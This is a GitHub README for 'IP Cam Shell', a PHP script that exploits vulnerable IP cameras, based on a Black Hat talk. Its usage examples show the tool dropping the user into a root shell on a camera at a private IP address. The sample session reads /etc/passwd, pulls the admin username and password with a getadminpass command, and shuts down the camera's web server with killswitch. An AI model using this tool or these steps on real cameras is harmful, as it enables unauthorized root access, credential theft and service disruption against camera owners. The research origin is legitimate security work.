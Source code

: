 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Basic Usage
-------

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Use `quit`, `exit`, or `^C` to exit.

Further Attacks
-------
Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

If you wish to kill the web server (to prevent someone from accessing the web interface temporarily), run the `killswitch` command. Note that the camera will continue to record regardless of this. Shutting the server down *might* switch the camera off, although that's complete speculation.



If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
